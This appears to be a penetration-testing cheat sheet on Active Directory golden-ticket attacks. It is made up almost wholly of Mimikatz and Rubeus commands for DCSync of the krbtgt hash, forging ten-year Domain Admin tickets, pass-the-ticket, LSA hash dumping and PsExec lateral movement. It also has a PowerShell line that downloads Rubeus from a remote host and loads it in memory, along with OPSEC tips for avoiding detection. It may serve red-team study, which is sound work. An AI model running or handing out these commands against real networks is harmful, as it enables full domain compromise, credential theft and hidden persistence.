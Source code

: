 # Binaries

## 01 - Mimikatz

```
mimikatz # privilege::debug
Privilege '20' OK
```

> [!IMPORTANT]
> Note down the domain name, domain controller, and Object Security ID which is the SID (ignore the last digits before the dash like `-501` for example)

```
mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt
```

Finally to generate a golden ticket to authenticate as an admin in order to maintain persistence it is recommended for OPSEC reasons that instead of making a new username (like **sysadmin** or **Administrator**) which you can but it's better to impersonate one of the user accounts that is part of **`Domain Admins`**.

Run this command to check which users are part of the **Domain Admins** group to impersonate it (note it will last for 10 years).

```
C:\> net group "domain admins" /domain

mimikatz # kerberos::golden /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_nt_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ptt
```

> [!INFO]
> You can export the ticket to save for further use in the future.

```
mimikatz # kerberos::golden /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ticket:golden_ticket.kirbi /ptt
```

List the golden ticket account to see if you're authenticated (your current session).

```
C:\> klist.exe

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

To export a golden ticket that is already authenticated in the active directory.

```
mimikatz # kerberos::list /export
```

Pass The Ticket.

```
mimikatz # kerberos::ptt golden_ticket.kirbi
```

> [!WARNING]
> `/inject` is not OPSEC safe

Dump the hashes.

```
mimikatz # lsadump::lsa [/patch | /inject] /name:krbtgt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /ptt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain> /sid:<sid> /aes256:<aes256_hash> /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt

mimikatz # misc::cmd

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

## 02 - Rubeus

Run it memory

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```

Generate a golden ticket

```powershell
PS C:\> [Rubeus.Program]::Main("s4u /user:<username> /rc4:<nt_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt".Split())

PS C:\> Rubeus.exe s4u /user:<username> /rc4:<nt_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt

PS C:\> klist

PS C:\> Rubeus.exe triage

PS C:\> Rubeus.exe klist

PS C:\> Get-ChildItem \\<IP>\C$
```

Pass the Ticket

```
PS C:\> Rubeus.exe ptt /ticket:golden_ticket.kirbi

PS C:\> Rubeus.exe ptt /ticket:<base64_encoded_golden_ticket>
```

---
## References

### Hackndo

- [Hackndo: Kerberos Sliver Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)

### Pentestlab

- [Pentestlab Blog: Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

### Hacking Articles

- [Hacking Articles: Metasploit For Pentester Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)
